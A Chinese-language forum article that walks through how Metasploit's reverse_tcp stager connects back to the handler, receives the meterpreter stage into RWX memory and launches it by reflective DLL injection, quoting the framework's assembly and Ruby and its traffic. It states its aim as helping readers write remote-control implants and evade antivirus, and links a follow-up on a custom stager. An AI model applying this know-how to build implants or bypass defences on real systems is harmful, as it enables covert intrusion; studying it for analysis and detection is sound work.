


# 奇安信攻防社区-从0到1了解metasploit上线原理

### 从0到1了解metasploit上线原理

在渗透的过程中拿到权限后通常会进行上线cs/msf的操作，我们了解上线的原理后，无论是对编写远控，还是绕过杀软帮助都很大。

## 前言

在渗透的过程中拿到权限后通常会进行上线cs/msf的操作，我们了解上线的原理后，无论是编写远控，还是绕过杀软对我们帮助都很大。

本文会解读metasploit中的代码，详细的解释上线过程/原理。

## 载荷分类

metasploit中有以下三种载荷。

-   singles:实现某种功能的载荷，如弹计算器，弹窗......这种载荷不与metasploit建立链接
-   stager:使用msfvenom生成的shellcode，功能是链接metasploit并接收msf发送过来的载荷
-   stage:stager拉取的载荷，它实现了metasploit中的meterpreter功能

在msf中stage通常指，名字是meterpreter的文件，后缀可以是dll php py jar，比如图中圈起来的meterpreter.x86.dll meterpreter.jar......


## shellcode功能

  
msfvenom生成的reverse\_tcp 的shellcode其实就是一个stager，这段shellcode负责链接metasploit服务端，然后接收服务端发送的stage并加载，这个stage才是实现meterpreter的载荷。

下面我们来分析一下`reverse_tcp.rb`文件中的汇编代码，这些汇编代码可以理解为reverse\_tcp shellcode的汇编状态。  
文件路径:`\lib\msf\core\payload\windows\`

需要注意的是，这个文件在上线中没有任何作用，修改或者删除此文件中的汇编代码并不会对上线的过程造成任何影响。

我们主要关注以下是三个函数:`generate_reverse_tcp asm_reverse_tcp asm_block_recv`  


## generate\_reverse\_tcp函数

先看一下这几行汇编

```c\+\+
call start ; Call start, this pushes the address of 'api_call' onto the stack. 
#{asm_block_api} start: pop ebp//将asm_block_api函数地址放到ebp中 
#{asm_reverse_tcp(opts)}//与metasploit建立连接 
#{asm_block_recv(opts)}//接收发送的metsrv.dll
```

`call start`将`asm_block_api`函数的地址压入堆栈，接着执行了start:下面的代码，pop ebp是将`asm_block_api`函数的地址放到了ebp寄存器中。

`asm_block_api`函数的功能是根据函数的名称找到函数地址

## asm\_reverse\_tcp函数


```js
reverse_tcp: push '32' ; Push the bytes 'ws2_32',0,0 onto the stack. 
    push 'ws2_' ; ... 
    push esp ; Push a pointer to the "ws2_32" string on the stack. 
    push #{Rex::Text.block_api_hash('kernel32.dll', 'LoadLibraryA')} 
    mov eax, ebp 
    call eax ; 
    LoadLibraryA( "ws2_32" ) 
    mov eax, 0x0190 ; EAX = sizeof( struct WSAData ) 
    sub esp, eax ; alloc some space for the WSAData structure 
    push esp ; push a pointer to this stuct 
    push eax ; push the wVersionRequested parameter 
    push #{Rex::Text.block_api\_hash('ws2_32.dll', 'WSAStartup')} 
    call ebp ; WSAStartup( 0x0190, &WSAData );
```

先看一下reverse\_tcp的汇编，首先push了几个参数。

在第5行先调用了block\_api\_hash得到了LoadLibraryA函数的地址，接着将LoadLibraryA函数的地址压入了堆栈，然后调用了asm\_block\_api函数。

此函数调用LoadLibraryA加载了ws2\_32这个dll，为下面使用socket链接metasploit做准备。  
从第9行开始，就是往堆栈中压入了一些参数，接着又调用了WSAStartup函数初始化了网络库。

下面这些汇编主要是压入了一些参数，接着在第15行调用了WSASocketA函数创建了一个套接字，接着把套接字存储到了edi中

```c
create_socket: 
    push #{encoded_host} ; host in little-endian format 
    push #{encoded_port} ; family AF_INET and port number 
    mov esi, esp ; save pointer to sockaddr struct 
    push eax ; if we succeed, eax will be zero, push zero for the flags param. 
    push eax ; push null for reserved parameter 
    push eax ; we do not specify a WSAPROTOCOL_INFO structure 
    push eax ; we do not specify a protocol inc eax ; 
    push eax ; push SOCK_STREAM 
    inc eax ; 
    push eax ; push AF_INET 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')} 
    call ebp ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );//创建了socket，为连接服务器做准备 
    xchg edi, eax ; save the socket for later, don't care about the value of eax after this
```

接着在第7行调用了bind函数，绑定了传入的socket结构体中的ip与端口

```c
push #{encoded_bind_port} ; family AF_INET and port number 
mov esi, esp ; save a pointer to sockaddr_in struct 
push #{sockaddr_size} ; length of the sockaddr_in struct (we only set the first 8 bytes, the rest aren't used) 
push esi ; pointer to the sockaddr_in struct 
push edi ; socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'bind')} 
call ebp ; bind( s, &sockaddr_in, 16 ); 
push #{encoded_host} ; host in little-endian format 
push #{encoded_port} ; family AF_INET and port number 
mov esi, esp
```

接着又调用了connect函数链接metasploit，如果eax中的值为0那么代表链接成功.

```c
push 16 ; length of the sockaddr struct 
push esi ; pointer to the sockaddr struct 
push edi ; the socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'connect')} 
call ebp ; connect( s, &sockaddr, 16 ); 
test eax,eax ; non-zero means a failure 
jz connected 
handle_connect_failure: 
    ; decrement our attempt count and try again 
    dec dword [esi+8] 
    jnz try_connect
```

asm\_reverse\_tcp函数中的汇编，大致有以下功能：加载socket相关dll，创建socket，绑定ip和端口，链接metasploit。就是做一些接收stage前的工作，为调用asm\_block\_recv接收stage做准备。

## asm\_block\_recv函数


首先调用recv函数接收msf发送过来的4字节数据，这4字节数据代表了即将发送过来的载荷的总大小。

```c
push 0 ; flags 
push 4 ; length = sizeof( DWORD ); 
push esi ; the 4 byte buffer on the stack to hold the second stage length 
push edi ; the saved socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
call ebp ; recv( s, &dwLength, 4, 0 );
```

首先压入了VirtualAlloc函数的参数，接着在第6行使用block\_api\_hash函数得到了VirtualAlloc函数的地址。

接着调用了VirtualAlloc函数用来申请一块具有RWX权限的内存空间，空间的大小是msf发送过来的四字节数据。

```c
mov esi,[esi] ; dereference the pointer to the second stage length 
push 0x40 ; PAGE_EXECUTE_READWRITE 
push 0x1000 ; MEM_COMMIT 
push esi ; push the newly recieved second stage length. 
push 0 ; NULL as we dont care where the allocation is. 
push #{Rex::Text.block_api_hash('kernel32.dll', 'VirtualAlloc')} 
call ebp ; VirtualAlloc( NULL, dwLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE ); 
; Receive the second stage and execute it... 
xchg ebx, eax ; ebx = our new memory address for the new stage 
push ebx ; push the address of the new stage so we can return into it
```

在第7行又调用了recv函数，接收msf发送过来的载荷，通过push压入的参数可以知道，是将接收到的载荷放到了刚刚申请的内存中。

需要注意的是，msf并不是一下子就把整个载荷发送了过来，而是把载荷分成了很多份分开发送的，所以下面通过cmp指令来判断是否接收完成，这里判断有没有接收完成的依据是通过，载荷的大小-接收的字节数来循环接收的。

```c
read_more: 
    push 0 ; flags 
    push esi ; length 
    push ebx ; the current address into our second stage's RWX buffer 
    push edi ; the saved socket 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
    call ebp ; recv( s, buffer, length, 0 );//recv函数的返回值会放到eax寄存器中，返回值是接收了多少字节的数据 
    cmp eax, 0//将eax与0比较，如果eax大于或等于0那么就执行jge跳转到read_successful处执行 
    jge read_successful
```

下面的汇编主要是判断载荷有没有接收完成，如果没有接收完成就通过jnz跳转继续调用read\_more下的代码，如果接收完成就直接ret。

```c
read_successful: 
    add ebx, eax ; buffer += bytes_received//跳过接收过得载荷的内存，因为不可能一直往一个内存地址里面塞载荷 
    sub esi, eax ; length -= bytes_received, will set flags//减去对载荷的大小 
    jnz read_more ; continue if we have more to read//如果sub esi,eax不等于0那么就执行jnz跳回read\_more继续接收，如果等于0，代表接收载荷完成，就不会跳转到read_more而是直接retn返回 
    ret ; return into the second stage
```

到了这里，我们已经接收到了真正的载荷了，但是现在还无法运行，因为在内存中没有人调用它，下面我们先通过wireshark来分析上线的过程，看metasploit都发过来了什么，在分析metsrv.dll是如何被调用的。

## 上线流量分析

服务端做好监听，wireshark做好过滤规则


成功抓取到了数据包  
  
从下图中可以看到，我们先与metasploit建立了链接，对应上面asm\_reverse\_tcp函数，接着metasploit向我们发送了一个Len为4的数据包，此数据包中的数据代表载荷的总大小。

数据包中的数据，是0x2be43，因为数据包中的数据是按照小端存储的方式存储的，所以需要转换一下。


0x2be43=179779(十进制)，这个值对应了metasploit向我们发送的载荷大小。


接着看后面的数据包，从图中可以看到，msf向我们发送了stage的开头，上面提到过msf不会一次性将整个stage发送过来，所以从图中可以看到metasploit一直在发送数据。

  
我们来看下接收完成后，是如何调用stage的

## stage执行过程

stage是通过reflective dll(反射式注入)技术调用的，因为是上线原理所以不会涉及到此技术原理。

meterpreter\_loader.rb文件中的汇编用于调用stage，我们看一下这个文件


```c
def stage_meterpreter(opts={}) 
    # Exceptions will be thrown by the mixin if there are issues. 
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))//得到ReflectiveLoader函数的偏移 
    asm_opts = { 
        rdi_offset: offset, 
        length: dll.length, 
        stageless: opts[:stageless] == true
    } 
    asm = asm_invoke_metsrv(asm_opts) 
    # generate the bootstrap asm 

    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string 

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
    if bootstrap.length > 62 
        raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
    end 

    # patch the bootstrap code into the dll's DOS header... 
    dll[ 0, bootstrap.length ] = bootstrap dll end
    dll 
end
```

来看一下下面的代码。

此函数功能：读取dll，接着调用parse\_pe函数得到ReflectiveLoader函数的偏移，在第11行返回了dll的数据与函数的便宜。

parse\_pe函数通过遍历dll的导出表得到名字是ReflectiveLoader函数的偏移

```c
def load_rdi_dll(dll_path) 
    dll = '' 
    ::File.open(dll_path, 'rb') { |f| dll = f.read } 
    offset = parse_pe(dll) 
    unless offset 
        raise "Cannot find the ReflectiveLoader entry point in #{dll_path}" 
    end 

    return dll, offset 
end 

def parse_pe(dll) 
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll)) 
    offset = nil 

    pe.exports.entries.each do |e| 
        if e.name =~ /^\\S\*ReflectiveLoader\\S\*/ 
        offset = pe.rva_to_file_ofset(e.rva) 
        break 
    end 
end 
    offset 
end
```

我们看一下asm\_invoke\_metsrv函数，这个函数调用了ReflectiveLoader函数，接着定位到了stages结束的地址。


```c
dec ebp ; 'M'//无效代码 
pop edx ; 'Z'//无效代码 
call $+5 ; call next instruction 
pop ebx ; get the current location (+7 bytes) 
push edx ; restore edx 
inc ebp ; restore ebp 
push ebp ; save ebp for later 
mov ebp, esp ; set up a new stack frame 
; Invoke ReflectiveLoader() 
; add the offset to ReflectiveLoader() (0x????????) 

add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)} 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```

前两行的代码，没什么实际功能，只是为了stages能被识别为pe文件，因为这两个汇编的字节码是0x4d 0x5a对应pe结构中的MZ

pop ebx将当前地址放到了ebx中，下面几行是恢复被修改的寄存器，保存栈底和提升栈顶

```c
add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)}//基地址+偏移=真正函数地址 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 
add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```

先说一下call 后面的地址是怎么来的，call 地址=目标地址-call下一条指令地址

来看下这个指令add ebx, #{"0x%.8x" % (opts\[:rdi\_offset\] - 7)}，代码中的rdi\_offset是ReflectiveLoader函数的偏移地址。

这句汇编通过基地址+偏移得到真正的ReflectiveLoader函数地址，准备调用，这里说下为啥-7。

现在ebx中是pop ebx的地址，在pop ebx前面还有三条指令 dec ebp,pop edx,call $+5，这三条指令加到一起的长度是7个字节。

而要得到一个函数的地址应该是基地址+偏移，在这里的代码中，真正的基地址应该是dec ebp这里，而不是pop ebx这里，dec ebp的地址+ReflectiveLoader函数的偏移才是真正的ReflectiveLoader函数地址，而不是pop ebx的地址+ReflectiveLoader的偏移，所以pop ebx的地址要-7个字节回到dec ebp这里。

  
接着调用了 call ebx执行了ReflectiveLoader函数，ReflectiveLoader函数主要是解析dll的pe信息，并根据这些信息重新把dll写入到内存中，然后修复dll的各种表，修复完成后会使用DLLMETASPLOIT\_ATTACH调用dllmain函数，接着会把dllmain函数地址返回到eax寄存器中。

add ebx, #{"0x%.8x" % (opts\[:length\] - opts\[:rdi\_offset\])}这行主要是定位到dll结束的地址，因为length是dll的总大小，它-reflectiveLoader函数的偏移就得到了剩余部分的大小，接着又让ebx+剩余部分大小=dll结束地址

```c
mov [ebx], edi ; write the current socket/handle to the config//保存socket句柄到ebx的地址中 
push ebx ; push the pointer to the configuration start 

push 4 ; indicate that we have attached 

push eax ; push some arbitrary value for hInstance 

call eax ; call DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)
```

metasploit发送载荷时会发送3部分数据

-   载荷的总大小
-   stage
-   配置数据

配置数据是与stage连在一起的。

现在ebx指向的是stagel结束的地址，第一行也就是将edi的值放到了配置结构中。

下面几行代码就是传入参数，接着在第5行调用了DLLMain函数。

现在stage就开始运行了。

但是在`meterpreter_loader.rb`这个文件中，还没有结束，我们继续看。


```c
asm = asm_invoke_metsrv(asm_opts)//返回了上面asm_invoke_metsrv函数中的汇编 
# generate the bootstrap asm 
bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string//生成引导代码 
# sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
if bootstrap.length > 62 
    raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
end 

# patch the bootstrap code into the dll's DOS header... 

dll[ 0, bootstrap.length ] = bootstrap//替换原有的dos头
```

主要是生成了一段bootstrap(引导代码)，接着在12行使用生成的引导代码替换掉了stages的dos头。

## 手写Stager替代shellcode

上面已经把msfvenom生成的shellcode干了什么给搞清楚了，现在咱们来手写一个Stager，这样也是有一定的免杀效果的，因为在我们编写的Stager中是没有shellcode存在。

[文章链接](https://forum.butian.net/share/1614)

## 总结

文章主要通过分析metasploit代码与流量分析，解释了metasploit中reverse\_Tcp的shellcode的上线过程，接着用c语言实现了一个stager，文章内容比较基础，而且难免会有错误，请各位师傅斧正。如果有不清楚的地方欢迎私信骚扰。

## 参考

-   [https://github.com/rapid7/metasploit-payloads](https://github.com/rapid7/metasploit-payloads) rapid7公开的metasploit的载荷源码
-   [https://github.com/rapid7/ReflectiveDLLInjection](https://github.com/rapid7/ReflectiveDLLInjection) 反射式dll注入
-   [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
-   [https://bbs.kanxue.com/thread-247616.htm](https://bbs.kanxue.com/thread-247616.htm)
-   [https://www.cnblogs.com/Akkuman/p/12859091.html](https://www.cnblogs.com/Akkuman/p/12859091.html)
-   [https://xz.aliyun.com/t/1709](https://xz.aliyun.com/t/1709)
